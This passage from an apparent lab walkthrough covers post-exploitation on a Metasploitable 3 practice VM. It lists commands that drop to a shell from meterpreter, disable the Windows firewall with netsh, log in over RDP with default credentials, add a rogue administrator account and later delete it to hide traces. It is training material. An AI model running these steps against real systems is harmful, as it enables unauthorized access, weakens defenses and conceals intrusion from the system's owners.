 Step 7. Now that we have meterpreter access, we want to get shell access so we can turn off firewall that is filtering out our RDP connection. To enter shell simply type “shell” into your meterpreter. If you don’t trust me that firewall is filtering out RDP connections just type “nmap -p 3389 10.0.2.20”. You can see that it’s filtered out  <br/>
<img src="https://media-hosting.imagekit.io/0fa1e286b42d42b6/IMG_1191.jpg?Expires=1838053955&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=DXSv1~sWQOgfy9A~NO5DpcRkS1c2YtgcM7q7B725Rywv7eMcfbTa2opEL92kEVuye-IkpAscplBbH7RjpeNi~OAZClACsPKGRbJj9bsYW352HUmLvsgso1Gf9uCYd4LMFp6nyp9bCwEwGxI3gighy1EdpYDi9g7qUraXHFxspKuFpKVKjG5PXkW8IQnWDeKIDXaIJPrhOYwC2J14n3PdoVDNRqom2riHhnMB2~CdKtZ3T1rWGtvk22rrObRreQYszhwl5OlLjEpZ-o2kgyf154hdMKrFa7U9NuCjVfDKz4ErzEQfUEikHwSj0EU7wvSVFklqpX~l4GFcPgktJLOmSg__" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Step 8. To turn off the firewall, type “netsh advfirewall set currentprofile state off”  <br/>
<img src="https://media-hosting.imagekit.io/e128b52025ba4e31/IMG_1166%20(1).jpg?Expires=1838055486&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=t2v64~LvnjZEE1lAHsNzhRMLvJKJMjNP2~vUGaUUnqdRBc1uQ-bOjf1LeabVB6bHIKqeJxFCN8q-Ao-q8TxMMGwxBAi271QrdWpZedGKdTt12SBJvUIQU3ayVEbLgrSnxp3o37tfxJJsgXTr5rv7QstWU1~9elQoDEUsTCyZy0XjKDAMto7u5Lw6zi8feqyCpxon63OXvQXQwT3YZv8xXKlbYbD5LwqABnk4EfZVQ60YEhG8KPrNrrI1II3oRjx4JyxiLQZLDz~q6vy7JqU1Eq4FlxkrswSP-obdDHa-pyDzwQh4QWwt3GKw7qkJWSnfJY0bb7cRViTtDvYDV0yJ6Q__" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Step 9. Now you’ll be able to remote desktop into Metasploitable 3. So, open a new tab and type in “rdesktop -u vagrant -p vagrant 10.0.2.20”. -u and -p are the username and password respectively.  <br/>
<img src="https://media-hosting.imagekit.io/975b7c01661141f4/IMG_1167.jpg?Expires=1838054819&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=cdEAu5dEzr37f0VjEWGkWttk4a0k0vC0qA9TPYYCnsb4VkK2VhFyYA7A9zmUdToZ2R4QbF0T0XTEOU0k~utQq~KBoSNBjJcdTNuojvGUx-wmXF1mj-t4GW4euEbjgE36I853NY2ln5Hrfx5dYq0XR~Uo1E1WZ1PPgD90QUgUvmDjxJ64FvyunrKW8CWY-~72zkqMNA-mQSl5iADNfeSuF2U~mdth~kgZrCwsIJpdxJM48zrMVNbBJO~6fwhHesNT57ZHjQ~GQ0F0dXzGpQ~LP8OwICQKRFA0gfKSiPSZNan4rmQzKC39xR4MvjtS71J4hE-wsaNtBBwforNAgK2DtA__" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Step 10. You now have remote access, but you’ll notice that this will kick the original user out. So, what we want to do is create a second account and add that account to the administrators group. To do so, go back to the terminal and type “net user bob tor
/add” This will add another user on the machine with the username bob and password tor.  <br/>
<img src="https://media-hosting.imagekit.io/dc49d64025c34fa8/IMG_1168.jpg?Expires=1838055294&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=baeeetZ9dRXAt2ca9E837GVSs8lOWGtBv-RbTsC5bf3GuwEKNZofWl4f-XzL6JCvZbSFoljtTvynr9bgOxTmB8W7PjxRkqDrX47BO7k8WLCmN8T1l3JmhmI5DBFmfi-XElOVSX~cZa0bG-dR9JF5SgGW7WbsEeff042psaoSK8xU~ryB4BwYA~G-K8kSAvnboEwPOYWbvYcu41WjOVI8EsO-Hp-6svVV~BTz44W60s9bkw53I81W9dmkZB0j9llOViXrSVg5Y7A56c4-LccH6D07EKgITuprlxEcMxtdQFpX1L~cqws6sIa-j6U-~K2BE74z4Ts-rMP5UOgWKzDgdw__" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Step 11. Add it to the administrator group by typing “net localgroup administrators bob /add”  <br/>
<img src="https://media-hosting.imagekit.io/5b61e4e5cab9471b/IMG_1169.jpg?Expires=1838055095&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=nzmN6KfHzAXVaYWfz8WCWER2gnKU-FMhar0SYDhPk8EjeUv~Bzj8Drya3V8Xd-DTeqdkRS-HxyHbAn6vY0r1JkMzHCcKifUGyIgqgtgakVXpgSRK3K7oOJRHA3hlk1zSp7davR3fBJkY4zfUgZ8giRSFrpsUdmBe3P1igsTISUGeXCrTNUYquKN8ZdHDBrJ5lf-8rVPyp7oKX7ZbGICZJszSLEmuU~MA6KiTU3IyxLBm4DUz2qj6VJdKd5iHu4HDkd9GEm-Q8nch4Q~orKq6oLqKJRI6H~VztGgj4fN493QsIZM5y6IDsRA59uLQK8~c7JLSluHkAIvQAalUM5Hhfg__" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Step 12. Now that you’ve created bob and added it to the admin group. You can RDP into bob using “rdesktop -u bob -p tor 10.0.2.20” without kicking out the other user on the machine.  <br/>
<img src="https://media-hosting.imagekit.io/8aec4b415f2c4d34/IMG_1170.jpg?Expires=1838055182&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=fqFA69RLctuUGI8cvRFTdOvZ6eDUx-AQ7nB69zvdrpEW6w6CsTlN5eP5FdKtsnONin~hL1cLKxV12Vm-kp6e9gZal89age~UpB124XHyD08EqdZ0Ucoz-y4N-~KidFMWk4vvWX93la98h9L0nf~55et8d~53sJtd756ysFl~ACUVGm44gYeb4BRF0hGX~15aYPkpHbiZFJMx0vdEiYTSW6851NnwG5funkpIFvS~vo4p-ZK1KYI3~kfzh~R5G~BVEiHe6Gw5U2K1Y83mLQfF2qc6U2b0e5o3TM-nFixIHiHkjepvCiPbSIOEXWHfQ8z-BNpURkafcO8UXBQ4i~X3eg__" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Step 13. Afterward you wouldn’t want them to know about you so you would try your best to remove traces of yourself and turn back on the firewall. So you’ll want to delete the user using “net user bob /delete”  <br/>
<img src="https://media-hosting.imagekit.io/5209c710a3004277/IMG_1171.jpg?Expires=1838055052&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=zbNdNhOmL6qh0huLUdMnWIF7CsnjefoXq0co-Tb5BO4Pe7v4noDeYNydc-p6eDN9tX0NV1ddEl8z3-xrNVa5GRlaZz9nKDiQ9fzcyUcpB60bweHogTKLCm~xmwYDHqHjm7Zyt34G~yza9tmTkkfgQ2VZbSl5OYmYpk5Ogs2WOaGVFksZ30~saUkGkNLOgCxYfjqADFc2c0eckUGIxkJGNrWIoQaEFGhDZm29k2IYosERCdEDwLc5xopad7b1JWDO5yA06wRQMuXKeDVuYRvdd0zYqNbvTAjSXm~Gv29piA6SO8LlCdDM3wJ1hvzunZbNfUkHpFEqW5Jbhbnl3X4GEQ__" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
And to turn on the firewall again. Type “netsh advfirewall set currentprofile state on”. This will also terminate the connection if you still have it open.  <br/>